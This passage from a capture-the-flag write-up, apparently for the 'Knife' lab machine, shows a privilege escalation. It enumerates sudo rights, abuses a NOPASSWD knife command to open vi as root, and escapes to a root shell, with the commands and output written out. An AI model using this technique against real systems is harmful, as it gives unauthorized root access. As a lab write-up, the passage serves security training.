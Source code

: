 ## Privilege Escalation

Enumerated sudo capabilities:

```bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Knife allowed to choose a file to edit and the editor to use. Because the program did not drop privileges, it was possible to use the `vi` editor and then escape it by spawning a privileged shell:

```bash
james@knife:/opt$ sudo /usr/bin/knife client edit healthcare-validator -e vi
```

![Pasted image 20210523004731.png](../../zzz_res/attachments/Pasted_image_20210523004731.png)

```bash
root@knife:/opt# id && hostname && cat /root/root.txt && ifconfig
uid=0(root) gid=0(root) groups=0(root)
knife
6ae0ca51...
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.242  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 dead:beef::250:56ff:feb9:befe  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:befe  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:be:fe  txqueuelen 1000  (Ethernet)
        RX packets 2722013  bytes 412311064 (412.3 MB)
        RX errors 0  dropped 66  overruns 0  frame 0
        TX packets 2509092  bytes 1106488505 (1.1 GB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 10923171  bytes 1938581473 (1.9 GB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 10923171  bytes 1938581473 (1.9 GB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
